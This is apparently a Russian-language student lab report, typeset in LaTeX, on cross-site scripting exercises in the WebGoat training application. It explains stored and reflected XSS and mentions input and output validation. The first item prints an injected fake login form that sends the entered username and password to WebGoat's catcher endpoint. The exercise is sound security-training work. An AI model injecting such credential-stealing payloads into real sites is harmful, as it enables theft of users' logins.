 \documentclass[11pt, a4paper]{article}		%
\begin{document}
\begin{itemize}

\item В первом задании нужно ввести в поле поиска вредоносный код, например, такой:

\begin{verbatim}
<form>
<form name="stealer">
Username: <input type="text" name="username"><br>
Password: <input type="password" name="password">
<input type="submit" value="Submit" onclick=<script><img src="http://localhost:8080/WebGoat/catcher?PROPERTY=yes&user="+ document.stealer.username.value + "&password=" + document.stealer.password.value + "">
</script>
</form>
\end{verbatim}

После чего появяться поля, где нужно будет ввести логин и пароль, которые будут переданы на нужный сервер.

\item Хранимые Stored XSS

Хранимый XSS является наиболее разрушительным типом атаки. Хранимый XSS возможен, когда злоумышленнику удается внедрить на сервер вредоносный код, выполняющийся в браузере каждый раз при обращении к оригинальной странице. Классическим примером этой уязвимости являются форумы, на которых разрешено оставлять комментарии в HTML формате без ограничений, а также другие сайты Веб 2.0 (блоги, вики, имиджборд), когда на сервере хранятся пользовательские тексты и рисунки. Скрипты вставляются в эти тексты и рисунки.

В данном случае в одном из полей, которое храниться в базе данных и выводиться у других пользоателей нужно указать вредоностный javascript код в тэге <script>.

Для предотвращения можно сделать валидацию по вооду данных и валидацию по выводу на сервере.

\item Отраженные Reflected XSS

Атака, основанная на отражённой уязвимости, на сегодняшний день является самой распространенной XSS-атакой. Эти уязвимости появляются, когда данные, предоставленные веб-клиентом, чаще всего в параметрах HTTP-запроса или в форме HTML, исполняются непосредственно серверными скриптами для синтаксического анализа и отображения страницы результатов для этого клиента, без надлежащей обработки. Отражённая XSS-атака срабатывает, когда пользователь переходит по специально подготовленной ссылке.


\end{itemize}
\end{document}
